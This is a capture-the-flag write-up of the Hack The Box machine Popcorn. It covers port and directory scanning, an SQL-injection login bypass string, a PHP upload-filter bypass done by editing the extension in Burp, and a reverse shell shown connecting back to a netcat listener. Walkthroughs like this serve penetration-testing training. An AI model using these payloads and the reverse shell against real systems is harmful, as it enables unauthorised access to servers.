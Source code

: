 ```yaml
---
layout: post
title: Popcorn(HTB)
categories:
  - Writeup
---
```


<br>OS Linux
<br>IP: 10.10.10.6
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.6

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 09:18 EST
<br>Nmap scan report for 10.10.10.6
<br>Host is up (0.15s latency).
<br>Not shown: 998 closed ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font> open  ssh     <font color="53E100">OpenSSH 5.1p1 Debian 6ubuntu2</font> (Ubuntu Linux; protocol 2.0)
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Apache httpd 2.2.12</font> ((Ubuntu))
<br>No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 88.76 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

**Gobuster**:- To Bruteforce Web Directory
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u http://10.10.10.6/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt</p> 

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : http://10.10.10.6/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 301,302,307,200,204
<br>[+] Expanded     : true
<br>=====================================================
<br>http://10.10.10.6/index (Status: 200)
<br>http://10.10.10.6/test (Status: 200)
<br><font color="53E100">http://10.10.10.6/torrent</font> (Status: 301)
<br>http://10.10.10.6/rename (Status: 301)
<br>=====================================================
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>From the gobuster we can see there is a directory **/torrent** in which _Torrent Hoster_ is running.
![Torrent](https://teckk2.github.io/assets/images/Popcorn/1-Popcorn.jpeg)
Now to get inside There are two ways either you can signup a new user or you can do **_sqli loggin bypass_**.
![SQLi bypass](https://teckk2.github.io/assets/images/Popcorn/2-Popcorn.JPG)
<br>In the _Username_ field we will use **{user' 1=1 LIMIT 1;#}** and in the _Password_ field you can use anything like **{password}**.
<br>Using this we can get admin access
![Admin Pannel](https://teckk2.github.io/assets/images/Popcorn/3-Popcorn.JPG)
Now go to the Upload Tab, and there we can only upload a torrent file so Download a valid torrent file or create a [new torrent file](https://www.wikihow.com/Create-a-Torrent)
![Torrent file](https://teckk2.github.io/assets/images/Popcorn/4-Popcorn.JPG)
<p>After uploading the file you will see there is a category _Screenshots_, where we can upload an image, So click on _edit this torrent_ and a new window will pop-up, And you need to remeber one thing we can upload only an image files(_jpg, jpeg, gif, png._). So now We have to bypass the image upload file restriction and need to upload our php reverse-shell in that place.</p>
<p> First Download the PHP standalone [reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or 
<br>Just open the file {<font color="red">root@kali</font>:<font color="RoyalBlue">/usr/share/webshells/php</font>#cat php-reverse-shell.php}
<br>Now open the file and change the IP and Port, Then change the file extension from {file.php} to {file.php;.png}.
<br>And browse the file to upload
![upload](https://teckk2.github.io/assets/images/Popcorn/5-Popcorn.JPG)
<br>Now capture the upload request in _BURP_
![upload request-1](https://teckk2.github.io/assets/images/Popcorn/6-Popcorn.JPG)
And change the extension from {_teck.php;.png_} to {_teck.php_} and forward it.
![upload request-2](https://teckk2.github.io/assets/images/Popcorn/7-Popcorn.JPG)
Now open up the listner and then click on the [Image File not found] box in a new tab
![image not found](https://teckk2.github.io/assets/images/Popcorn/8-Popcorn.JPG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.14.14] from (UNKNOWN) [10.10.10.6] 52549
<br>Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
<br> 19:50:19 up 1 day, 18:50,  0 users,  load average: 0.00, 0.00, 0.00
<br>USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br>/bin/sh: can't access tty; job control turned off
<br>$ id
<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br>$uname -a
<br>Linux popcorn <font color="53E100">2.6.31-14-generic-pae</font> #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
<br>$</p> 
</div>
</font>








